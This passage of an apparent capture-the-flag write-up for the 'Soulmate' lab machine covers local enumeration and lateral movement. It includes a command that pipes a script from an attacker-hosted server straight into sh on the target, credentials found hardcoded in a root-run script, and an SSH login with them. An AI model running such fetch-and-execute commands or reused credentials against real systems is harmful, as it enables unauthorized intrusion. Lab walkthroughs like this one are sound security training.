 ## Local enumeration
```bash
id && ip a && ls -al /home
```
Next, ran [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) for automated privilege escalation enumeration.

- On my attacker machine, started a simple HTTP server to serve linpeas.sh, **linpeas must be in directory**:
```bash
python3 -m http.server 80 #Host
```
- On the target machine, I downloaded and executed linpeas.sh:
```bash
cd /dev/shm/
curl 10.10.14.112:80/linpeas.sh | sh #Victim
```
### Critical Discovery — Suspicious Running Script
While reviewing the process list, noticed a suspicious service running as root:
![](<./attachments/Soulmate-12.png>)
Examined the script contents:
```bash
cat /usr/local/lib/erlang_login/start.escript
```
![](<./attachments/Soulmate-14.png>)
![](<./attachments/Soulmate-13.png>)
And found hardcoded SSH credentials for the user `ben`
>[!IMPORTANT]
>ben:HouseH0ldings998
## Lateral movement vector
### Access via SSH
```bash
sshpass -p 'HouseH0ldings998' ssh ben@soulmate.htb -p 22
```
### Switch user